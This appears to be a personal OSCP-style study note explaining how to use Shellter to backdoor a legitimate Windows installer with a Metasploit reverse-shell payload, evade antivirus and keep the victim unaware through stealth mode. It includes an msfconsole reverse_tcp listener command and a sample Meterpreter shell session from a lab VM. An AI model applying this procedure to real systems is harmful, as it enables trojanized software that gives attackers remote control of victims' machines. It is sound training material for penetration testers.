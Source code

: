 ```yaml
---
aliases:
  - shellter
---
```


# Automating Antivirus Evasion
One of the most popular tools for automating [antivirus](README.md) evasion is [Shellter](https://www.shellterproject.com/homepage/). It does this by creating *backdoors* into non-malicious executable files where malicious payload can be injected. Shellter takes a valid [PE](../../computers/windows/PE.md), does a *thorough analysis* of it and its execution paths, and then determines where in the execution *a malicious payload can be injected*.

Shellter uses *non-conventional* techniques to inject shellcode, which allows it to bypass detection by most AV products. Additionally, it uses the PE *[Import Table](../../computers/windows/PE.md#Import%20Table)* to find functions in the PE which are used for *memory allocation, transfer, and execution*. 
## Use
### Installation
(on Kali)
```bash
apt-cache search shellter
shellter - Dynamic shellcode injection tool and dynamic PE infector

sudo apt install shellter
...
```
 Shellter is designed to run on [Windows](../../computers/windows/README.md) operating systems, so you should also install [wine](https://www.winehq.org/) (which lets us run Win32 applications on POSIX operating systems). 
 ```bash
sudo apt install wine
...

sudo dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```
### Manual vs Auto Mode
When we run shellter in the command line, we get a new console (running under wine). Once it starts up, it asks whether we want to run in Auto or Manual mode. 
#### Manual Mode
In manual mode the tool launches the PE we give it and lets us manipulate it ourselves. In manual mode, we can customize the injection process.
#### Auto Mode
In auto mode, shellter does most of the injection work for us. 
### Choosing a PE
We need to select a target PE. This is the PE shellter is going to inject into and which we will deliver to the victim (once modified by shellter). [According to Shellter's author](https://www.shellterproject.com/an-important-tip-for-shellter-usage/), it's better to choose new and *less scrutinized applications*. For example, lets us the Windows 32bit installer for Spotify.

Once we give the path to our PE, shellter *makes a backup of it*, then it will analyze it for a suitable place it its execution to inject some malicious code.
### Stealth Mode
Once shellter has found a place, shellter asks if we want to enable *Stealth Mode*. In stealth mode, shellter will try to *restore the execution flow* of the PE after our payload has been executed. We should enable this *especially if a victim is executing the PE*. If it just crashes after our payload executes, that could raise some red flags.
### Payloads
Now shellter will ask us to choose a payload for the injection. You can either choose one of the *popular options* or you can choose to inject a *custom payload*. 
![](../oscp-pics/automating-evasion-1.png)
Let's select the first one. Then shellter will ask for the default options from Metasploit (`LHOST` and `LPORT`). We should set theses to our Kali attacking box [IP address](../../networking/OSI/3-network/IP-addresses.md) and a listening port.
### Testing
After setting all of the parameters, Shellter will inject our payload into the PE and then attempt to reach the payload's *first instruction*. During this phase, Shellter warns that if the PE *spawns a child process* before the injection point, then *our injected payload will be in the child process* and Shellter won't be able to tell if the test succeeded or not.
![](../oscp-pics/automating-evasion-2.png)
### Execution
Once our test succeeds, we should *configure the listener* on our attacking box. We can use [`msfconsole`](../../cybersecurity/TTPs/exploitation/tools/metasploit.md#`msfconsole`) for that:
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
```
Once that's up and listening, we can transfer our malicious PE to the victim system (in this case our Windows VM with the AV product we [tested against](testing-for-evasion.md)). Once it's there, run another quick scan with the Antivirus System (we tested against Avira). 

If our PE isn't detected, then we can run it by double clicking it in the VM. We should look out for two things:
1. Our reverse shell connection on our listener (`msfconsole`)
2. If the PE continues its regular, non-malicious execution after we get the reverse shell (since we told Shellter to use Stealth Mode and return the execution flow to the original PE after executing our payload). 
Our reverse shell output on the listener should look something like this:
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => 192.168.50.1
LPORT => 443
[*] Started reverse TCP handler on 192.168.50.1:443
[*] Sending stage (175174 bytes) to 192.168.50.62
[*] Meterpreter session 1 opened (192.168.50.1:443 -> 192.168.50.62:52273)...

meterpreter > shell
Process 6832 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.739]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec\Desktop>whoami
whoami
client01\offsec
```

> [!Resources]
> - [Shellter](https://www.shellterproject.com/homepage/)
> - [wine](https://www.winehq.org/) 
> - [Shellter: An important tip for Shellter Usage](https://www.shellterproject.com/an-important-tip-for-shellter-usage/)
